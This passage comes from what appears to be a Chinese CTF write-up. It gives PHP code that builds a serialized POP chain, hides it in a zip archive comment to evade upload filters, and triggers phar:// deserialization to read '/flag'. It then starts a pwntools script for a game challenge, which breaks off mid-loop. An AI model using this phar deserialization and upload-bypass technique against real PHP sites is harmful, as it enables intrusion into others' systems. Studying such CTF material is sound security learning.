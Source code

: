 > $a->fn = '/flag';
> $b = new Fun();
> $b->fun = $a;
> $c = new Fun();
> $c->fun = $b;
> $d = serialize($c);
> if(file_exists('phar.zip')) {
>  @unlink("phar.zip");
> }
> $zip = new ZipArchive;
> $res = $zip->open('phar.zip', ZipArchive::CREATE);
> $zip->addFromString('test.txt', 'file content goes here');
> $zip->setArchiveComment($d);
> $zip->close();
> ```
> 通过上传 zip 或 tar 文件包装的phar文件, 可以绕过对 `<?` 和 `php` 的语法检查
>
> 然后通过 phar 反序列化触发 pop 链得到 flag
>
> ```
> phar://./phar.zip
> phar:///var/www/html/uploads/phar.zip
> ```

## misc

### misc游戏签到

这题还是挺有意思的，玩游戏通关，一开始只是简单写了个bash，无法达到获得flag的目的

> wp用的python跑，还是值得学习一下的
>
> ```python
> from pwn import *
> context.log_level = 'debug'
> 
> 
> def get_data(r):
>     r.recvuntil('     \n')
>     e1 = int(r.recvline())
>     e2 = int(r.recvline())
>     e3 = r.recvline().split(b' ')
>     p, e3 = int(e3[0]), int(e3[-1])
>     e = sorted(enumerate([e1, e2, e3], start=1), key=lambda x: x[0])
>     return p, e
> 
> 
> def attack(r, p, e):
>     for i, ee in e:
>         if p > ee:
>             r.sendline(str(i))
>             r.recv()
>             p += ee
>         else:
>             return None
>     r.recvuntil('Choose which You want to upgrade?\n')
>     l = []
>     l.append(r.recvline()[2:-1])
>     l.append(r.recvline()[2:-1])
>     l.append(r.recvline()[2:-1])
>     return l
> 
> while True:
>     a = True